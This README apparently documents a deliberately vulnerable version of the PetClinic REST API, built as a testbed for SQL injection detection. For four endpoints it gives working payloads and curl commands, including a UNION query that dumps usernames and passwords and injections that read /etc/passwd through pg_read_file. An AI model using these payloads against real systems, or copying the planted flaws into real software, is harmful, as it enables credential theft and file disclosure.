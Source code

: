 # Endpoints vulnerable for SQLi

This project has the following endpoints:
```shell
GET: /oops
POST: /owners
GET: /owners
GET: /owners/{ownerId}
PUT: /owners/{ownerId}
DELETE: /owners/{ownerId}
POST: /owners/{ownerId}/pets
GET: /owners/{ownerId}/pets/{petId}
PUT: /owners/{ownerId}/pets/{petId}
POST: /owners/{ownerId}/pets/{petId}/visits
GET: /pettypes
POST: /pettypes
GET: /pettypes/{petTypeId}
PUT: /pettypes/{petTypeId}
DELETE: /pettypes/{petTypeId}
GET: /pets
POST: /pets
GET: /pets/{petId}
PUT: /pets/{petId}
DELETE: /pets/{petId}
GET: /visits
POST: /visits
GET: /visits/{visitId}
PUT: /visits/{visitId}
DELETE: /visits/{visitId}
GET: /specialties
POST: /specialties
GET: /specialties/{specialtyId}
PUT: /specialties/{specialtyId}
DELETE: /specialties/{specialtyId}
GET: /vets
POST: /vets
GET: /vets/{vetId}
PUT: /vets/{vetId}
DELETE: /vets/{vetId}
POST: /users
```

Out of these, some are made vulnerable to SQL injection:
```HTTP
# other table data (UNION), single row
GET: /vets/{vetId}
# subvert logic, single row
GET: /specialties/{specialtyId} 
# (hidden) inserting data, single row
POST: /vets
```

To enable a vulnerability, set `vuln{x}` to `true` in `application.properties`.

## Endpoints with shallow depth
These vulnerable endpoints don't have deep code execution and all detect
multiple rows as SQLi, so payloads work internally, but don't always
return data in the HTTP response.

### Vulnerability 1: `GET /vets/{vetId}`
This vulnerability allows for UNION attacks, allowing an attacker to retrieve
data from other tables.

- operation: `getVet`
- payload: `0' UNION SELECT NULL,username,password FROM users--`

```shell
curl -i -s -k -X $'GET' \
  -H $'Host: localhost:9966' \
  $'http://localhost:9966/petclinic/api/vets/0\'%20UNION%20SELECT%20NULL,username,password%20FROM%20users--'
```

### Vulnerability 2: `GET /specialties/{specialtyId}`
This vulnerability allows for subverting logic, allowing an attacker to retrieve
hidden data. 

- operation: `getSpecialty`
- payload: `4'--`

```shell
curl -i -s -k -X $'GET' \
  -H $'Host: localhost:9966'
  $'http://localhost:9966/petclinic/api/specialties/4\'--'
```
 
### Vulnerability 3: `POST /vets`
This vulnerability allows for inserting data, allowing an attacker to create
a new user with, e.g., leaked data. 

- operation: `addVet`
- payload: `hack', (SELECT LEFT(pg_read_file('/etc/passwd'), 30)) ) RETURNING id--`
```json
{
  "firstName": "hack', (SELECT LEFT(pg_read_file('/etc/passwd'), 30)) ) RETURNING id--",
  "lastName": "",
  "specialties": [
    {
      "name": "hacker"
    }
  ]
}
```

```shell
curl -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' -H $'Accept: application/json'-H $'Host: localhost:9966' -H $'Content-Length: 168' \
    --data-binary $'{\x0a  \"firstName\": \"hack\', (SELECT LEFT(pg_read_file(\'/etc/passwd\'), 30)) ) RETURNING id--\",\x0a  \"lastName\": \"\",\x0a  \"specialties\": [\x0a    {\x0a      \"name\": \"hacker\"\x0a    }\x0a  ]\x0a}' \
    $'http://localhost:9966/petclinic/api/vets'
```

## Endpoints with deeper execution paths
These vulnerable endpoints deeper code path executions.

[//]: # (all detect multiple rows as SQLi, so payloads work internally, but don't always return data in the HTTP response.)

### Vulnerability 4: `POST /owners`
This vulnerability is the same as [Vulnerability 3](#vulnerability-3-post-vets), but with a deeper code paths.
This is achieved by splitting `vulnSave` into `vulnStoreNewOwner` and `vulnUpdateExistingOwner`.

- operation: `addOwner`
- payload: `hack', (SELECT LEFT(pg_read_file('/etc/passwd'), 30)) ) RETURNING id--`
```json
{
  "firstName": "hack', (SELECT LEFT(pg_read_file('/etc/passwd'), 30)), 'addr', 'city', '42') RETURNING id--",
  "lastName": "",
  "address": "",
  "city": "",
  "telephone": ""
}
```

```shell
curl -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' -H $'Accept: application/json'-H $'Host: localhost:9966' -H $'Content-Length: 168' \
    --data-binary $'{\x0d\x0a  \"firstName\": \"hack\', (SELECT LEFT(pg_read_file(\'/etc/passwd\'), 30)), \'addr\', \'city\', \'42\') RETURNING id--\",\x0d\x0a  \"lastName\": \"\",\x0d\x0a  \"address\": \"\",\x0d\x0a  \"city\": \"\",\x0d\x0a  \"telephone\": \"\"\x0d\x0a}\x0d\x0a' \
    $'http://localhost:9966/petclinic/api/owners'
```


